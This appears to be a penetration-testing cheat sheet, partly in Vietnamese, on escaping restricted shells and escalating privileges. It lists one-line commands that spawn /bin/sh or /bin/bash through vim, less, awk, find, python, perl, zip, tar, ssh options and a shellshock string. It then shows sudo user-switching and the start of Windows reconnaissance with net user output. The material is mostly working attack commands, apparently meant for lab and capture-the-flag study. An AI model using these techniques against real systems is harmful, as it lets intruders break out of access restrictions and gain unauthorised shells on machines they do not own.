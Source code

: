 - **Common Exploitation Techniques**

1) If "/" is allowed you can run /bin/sh or /bin/bash. 
2) If you can run cp command you can copy the /bin/sh or /bin/bash into your directory. 
3)  From ftp > !/bin/sh or !/bin/bash 
4)  From gdb > !/bin/sh or !/bin/bash 
5)  From more/man/less > !/bin/sh or !/bin/bash
6)  From vim > !/bin/sh or !/bin/bash 
7)  From rvim > :python import os; os.system("/bin/bash ) 
8)  From scp > scp -S /path/yourscript x y: 
9)  From awk > awk 'BEGIN {system("/bin/sh or /bin/bash")}' 
10)  From find > find / -name test -exec /bin/sh or /bin/bash \;

- **Programming Languages Techniques**

1) From except > except spawn sh then sh. 
2) From python > python -c 'import os; os.system("/bin/sh")' 
3) From php > php -a then exec("sh -i"); 
4) From perl > perl -e 'exec "/bin/sh";' 
5) From lua > os.execute('/bin/sh'). 
6) From ruby > exec "/bin/sh" 

- **Advanced Techniques**

1) From ssh > ssh username@IP - t "/bin/sh" or "/bin/bash" 
2) From ssh2 > ssh username@IP -t "bash --noprofile" 
3) From ssh3 > ssh username@IP -t "() { :; }; /bin/bash" (shellshock) 4) From ssh4 > ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID) 
5) From git > git help status > you can run it then !/bin/bash 
6) From pico > pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T 
7) From zip > zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash" 
8) From tar > tar cf /dev/null testfile --checkpoint=1 --checkpointaction=exec=/bin/bash

## Lab Note

- Nếu user có quyền sử dụng shell của user khác:

![](img/Capture5.PNG)

- Ta có thể sử dụng command : `sudo -i -u scriptmanager` hoặc `sudo -u [user] /bin/bash`
	-    **_-i_**: run login shell as the target user
	-    **_-u_**: run command (or edit file) as specified user name or ID

# Windows
# 1. Information Gathering
- `whoami `will display the username the shell is running as.
- `net user` : command to gather more information.

```none
C:\Users\HaNX>net user hanx
User name                    HaNX
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            3/24/2022 4:08:12 PM
Password expires             Never
Password changeable          3/24/2022 4:08:12 PM
Password required            No
User may change password     Yes

```